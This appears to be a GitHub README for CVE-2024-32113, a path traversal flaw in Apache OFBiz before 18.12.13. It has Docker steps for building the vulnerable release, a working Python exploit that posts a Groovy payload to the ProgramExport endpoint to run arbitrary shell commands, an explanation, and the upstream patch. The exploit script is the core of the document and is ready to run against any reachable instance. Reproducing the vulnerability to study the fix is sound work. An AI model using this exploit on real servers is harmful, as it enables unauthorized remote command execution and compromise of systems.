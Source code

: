 # CVE-2024-32113

## Description

Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal') vulnerability in Apache OFBiz.This issue affects Apache OFBiz: before 18.12.13. Users are recommended to upgrade to version 18.12.13, which fixes the issue.

## Setup

1. Clone the repository

    ```bash
    git clone https://github.com/apache/ofbiz-framework.git ofbiz-framework
    ```

2. Change the directory

    ```bash
    cd ofbiz-framework
    ```

3. Fetch all the tags

    ```bash
    git fetch --all --tags
    ```

4. Checkout to the vulnerable version

    ```bash
    git checkout release18.12.12
    ```

5. Build the project with docker

    ```bash
    docker build --target demo --tag ofbiz-docker .
    ```

6. Run the project

    ```shell
    docker run -it -p 8443:8443 ofbiz-docker
    ```

Now the project is running on `https://localhost:8443`

## Exploit

Using the following payload, we can execute arbitrary commands on the server:

```python
import requests
import urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def exploit(url, command):
    print("[+] CVE-2024-32113 - Apache OFBiz RCE Exploit")
    print(f"[+] Executing command: {command}")

    headers = {
        'Content-Type': 'application/x-www-form-urlencoded'
    }

    data = f"groovyProgram=throw+new+Exception('{command}'.execute().text);"

    try:
        response = requests.post(url + '/webtools/control/forgotPassword;/ProgramExport', headers=headers, data=data, verify=False)

        if response.status_code == 200:
            print("\n[+] Exploit successful")
            soup = BeautifulSoup(response.text, 'html.parser')
            error_message = soup.find('div', class_='content-messages errorMessage')

            if error_message:
                filtered_output = error_message.get_text().strip()
                print(f"[+] Extracted Payload Response:\n{filtered_output}")
            else:
                print("[-] Couldn't find the expected output in the response.")
        else:
            print("[-] Exploit failed. Status code:", response.status_code)

    except requests.RequestException as e:
        print(f"[-] An error occurred: {e}")

if __name__ == '__main__':
    command = input("Enter the shell command you want to execute: ")
    exploit("https://localhost:8443", command)
```

## Explanation

Basically this CVE is a Path Traversal vulnerability, which allows an attacker to execute arbitrary commands on the server. The vulnerability is in the `ControlFilter.java` file, where the URL is not properly validated.

This was fixed by two commits: [commit 1](https://github.com/apache/ofbiz-framework/commit/ff316b6e224b9cb8e3873689f7e6f997af89398a) and [commit 2](https://github.com/apache/ofbiz-framework/commit/b3b87d98ddb1997965f23e2c8356243dbf81dec3)

the overall changes are:

<details>
<summary>Patch</summary>

```patch
From ff316b6e224b9cb8e3873689f7e6f997af89398a Mon Sep 17 00:00:00 2001
From: Jacques Le Roux <jacques.le.roux@les7arts.com>
Date: Thu, 11 Apr 2024 15:38:36 +0200
Subject: [PATCH] Fixed: Reject wrong URLs (OFBIZ-13006)

Fixes compile errors when backported from trunk
---
 .../java/org/apache/ofbiz/webapp/control/ControlFilter.java  | 5 ++---
 1 file changed, 2 insertions(+), 3 deletions(-)

diff --git a/framework/webapp/src/main/java/org/apache/ofbiz/webapp/control/ControlFilter.java b/framework/webapp/src/main/java/org/apache/ofbiz/webapp/control/ControlFilter.java
index c77bd57817c..235019f7d47 100644
--- a/framework/webapp/src/main/java/org/apache/ofbiz/webapp/control/ControlFilter.java
+++ b/framework/webapp/src/main/java/org/apache/ofbiz/webapp/control/ControlFilter.java
@@ -21,7 +21,6 @@
 import java.io.IOException;
 import java.net.URI;
 import java.net.URISyntaxException;
-import java.nio.file.Paths;
 import java.util.HashSet;
 import java.util.Set;
 
@@ -136,8 +135,8 @@ public void doFilter(ServletRequest request, ServletResponse response, FilterCha
 
+            // Reject wrong URLs
+            try {
+                String url = new URI(((HttpServletRequest) request).getRequestURL().toString()).normalize().toString();
+                if (!((HttpServletRequest) request).getRequestURL().toString().equals(url)) {
+                    throw new RuntimeException();
+                }
+            } catch (URISyntaxException e) {
+                throw new RuntimeException(e);
+            }
+
```

</details>

The change now checks if the URL is valid or not, by normalizing the URL and comparing it with the original URL. If they are not the same, it will throw an exception.
